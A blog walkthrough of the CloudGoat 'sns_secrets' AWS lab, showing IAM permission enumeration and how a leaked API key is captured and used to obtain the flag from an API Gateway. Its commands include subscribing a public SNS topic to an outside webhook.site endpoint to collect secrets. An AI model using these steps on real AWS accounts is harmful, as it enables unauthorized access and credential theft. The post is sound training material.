+++
title = 'Hands on Cloud Pentesting: 1 - Cloudgoat sns_secrets'
date = 2025-05-20T18:57:25+05:30
draft = false
series = "Hands on Cloud Pentesting"
tags = ["cloud","aws"]
+++

<!--more-->

## Introduction

Today lets take a look at the next [Cloudgoat](https://github.com/RhinoSecurityLabs/cloudgoat) scenario. 

## sns_secrets (Easy)

[Scenario Page](https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/cloudgoat/scenarios/aws/sns_secrets/README.md)
### Description
In this scenario, you start with basic access to an AWS account. You need to enumerate your privileges, discover an SNS Topic you can subscribe to, retrieve a leaked API Key, and finally use the API Key to access an API Gateway for the final flag.

### Scenario Goal(s)
Get the final flag by invoking the API Gateway with the leaked API key.

### Solution
First lets start the scenario using cloudgoat
```bash
cloudgoat create sns_secrets
```
Once the scenario is deployed, we are provided with AWS Access key and Secret key for `sns_user`.


For this scenario, the resources being created are:
+ 1 EC2 instance
+ [1 SNS topic](https://aws.amazon.com/sns/pricing/)
+ [1 API Gateway REST API](https://aws.amazon.com/api-gateway/pricing/)
+ 1 IAM role
+ 1 IAM user

*Looking at the pricing pages for SNS topic and API Gateway REST API, it appears our usage should fall within free tier but if it does not, I will let you know at the end of this blog.*

The next step is to configure the given credentials.

Now lets run a simple whoami ([sts:GetCallerIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/get-caller-identity.html))


Starting off with some iam enumeration, we can see that we don't have permission to list roles or groups (iam list-roles/list-groups) nor do we have permission to list-users or list-policies but list-attached-user-policies and list-user-policies works. Only list-user-policies gives us an output.


Lets take a look at what the policy is
```bash
$ aws iam get-user-policy --profile sns_user --policy-name cg-sns-user-policy-cgidhisns60b90 --user-name cg-sns-user-cgidhisns60b90
{
    "UserName": "cg-sns-user-cgidhisns60b90",
    "PolicyName": "cg-sns-user-policy-cgidhisns60b90",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Action": [
                    "sns:Subscribe",
                    "sns:Receive",
                    "sns:ListSubscriptionsByTopic",
                    "sns:ListTopics",
                    "sns:GetTopicAttributes",
                    "iam:ListGroupsForUser",
                    "iam:ListUserPolicies",
                    "iam:GetUserPolicy",
                    "iam:ListAttachedUserPolicies",
                    "apigateway:GET"
                ],
                "Effect": "Allow",
                "Resource": "*"
            },
            {
                "Action": "apigateway:GET",
                "Effect": "Deny",
                "Resource": [
                    "arn:aws:apigateway:us-east-1::/apikeys",
                    "arn:aws:apigateway:us-east-1::/apikeys/*",
                    "arn:aws:apigateway:us-east-1::/restapis/*/resources/*/methods/GET",
                    "arn:aws:apigateway:us-east-1::/restapis/*/methods/GET",
                    "arn:aws:apigateway:us-east-1::/restapis/*/resources/*/integration",
                    "arn:aws:apigateway:us-east-1::/restapis/*/integration",
                    "arn:aws:apigateway:us-east-1::/restapis/*/resources/*/methods/*/integration"
                ]
            }
        ]
    }
}
```

There are 2 Statements - one to allow SNS and IAM actions and the other one to deny API Gateway interactions. Our final goal is to read the flag from the API gateway but the permissions we have right now do not allow us to do GET requests to certain endpoints in the API. Since the scenario requires us to exploit SNS, lets take a look at what it is.

[Amazon SNS](https://docs.aws.amazon.com/sns/latest/dg/welcome.html) is a service that provides message delivery through publish-subscribe architecture. We can subscribe to an SNS topic to receive messages through Email, mobile push notifications, SMS and more.

Since we have few permissions on SNS, lets try to see what we can find.

We can use the following command to get more information about the topic
```bash
aws sns get-topic-attributes --topic-arn arn:aws:sns:us-east-1:139343766080:public-topic-cgidhisns60b90 --profile sns_user
```
This gives an access control policy which allows anyone to subscribe to the topic and some other attributes
```json
{
    "Attributes": {
        "Policy": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Effect\":\"Allow\",\"Principal\":\"*\",\"Action\":[\"sns:Subscribe\",\"sns:Receive\",\"sns:ListSubscriptionsByTopic\"],\"Resource\":\"arn:aws:sns:us-east-1:139343766080:public-topic-cgidhisns60b90\"}]}",
        "LambdaSuccessFeedbackSampleRate": "0",
        "Owner": "139343766080",
        "SubscriptionsPending": "0",
        "TopicArn": "arn:aws:sns:us-east-1:139343766080:public-topic-cgidhisns60b90",
        "EffectiveDeliveryPolicy": "{\"http\":{\"defaultHealthyRetryPolicy\":{\"minDelayTarget\":20,\"maxDelayTarget\":20,\"numRetries\":3,\"numMaxDelayRetries\":0,\"numNoDelayRetries\":0,\"numMinDelayRetries\":0,\"backoffFunction\":\"linear\"},\"disableSubscriptionOverrides\":false,\"defaultRequestPolicy\":{\"headerContentType\":\"text/plain; charset=UTF-8\"}}}",
        "FirehoseSuccessFeedbackSampleRate": "0",
        "SubscriptionsConfirmed": "0",
        "SQSSuccessFeedbackSampleRate": "0",
        "HTTPSuccessFeedbackSampleRate": "0",
        "ApplicationSuccessFeedbackSampleRate": "0",
        "DisplayName": "",
        "SubscriptionsDeleted": "0"
    }
}
```
We can [subscribe](https://docs.aws.amazon.com/cli/latest/reference/sns/subscribe.html) to the topic with an http webhook to see what messages we receive.
```bash
aws sns subscribe --topic-arn arn:aws:sns:us-east-1:139343766080:public-topic-cgidhisns60b90 --protocol https --notification-endpoint https://webhook.site/8598152c-ae9a-499a-923b-88d36987e9cf  --profile sns_user
```

We receive a SubscribeURL which we have to visit to confirm the subscription.
Once that is done, we can check our current subscriptions with the cli.

We can see that the one is confirmed and the other(which I sent first for testing) is pending confirmation.

After a few seconds, on the webhook we receive a message/notification with an API key:


Ok so what can we do with the API gateway and how does this key help us? 
We can start by checking what API's are deployed

With this api id, we can enumerate the routes that are offered.


Using the api id and the route we found we can [invoke the api](https://docs.aws.amazon.com/apigateway/latest/developerguide/how-to-call-api.html)
 :
```html
https://api-id.execute-api.region.amazonaws.com/stage/
```
We still need to find the `stage` which can be found by


So final api url is - https://j2842uw9h6.execute-api.us-east-1.amazonaws.com/prod-cgidhisns60b90/user-data

Now if we try to simply curl the api url, we get Forbidden response

To get past that, we need to [call the method using the api key](https://docs.aws.amazon.com/apigateway/latest/developerguide/api-gateway-api-key-call.html) we got earlier and that gives us the flag.

> Flag = FLAG{SNS_S3cr3ts_ar3_FUN}

So what is preventing us from just using AWS CLI to get the API key?
As part of enumeration, a common step is to try listing all API keys via:

```bash
aws apigateway get-api-keys --profile sns_user
```
But in this scenario, that won’t work.

Even though our IAM user has an Allow for apigateway:GET, the policy includes this explicit Deny:

```json
{
  "Action": "apigateway:GET",
  "Effect": "Deny",
  "Resource": [
    "arn:aws:apigateway:us-east-1::/apikeys",
    "arn:aws:apigateway:us-east-1::/apikeys/*"
  ]
}
```
In AWS IAM, an explicit Deny always overrides any Allow, so we’re blocked from using the AWS CLI to list or retrieve API keys.

Stop the scenario using:
```bash
cloudgoat destroy sns_secrets
```
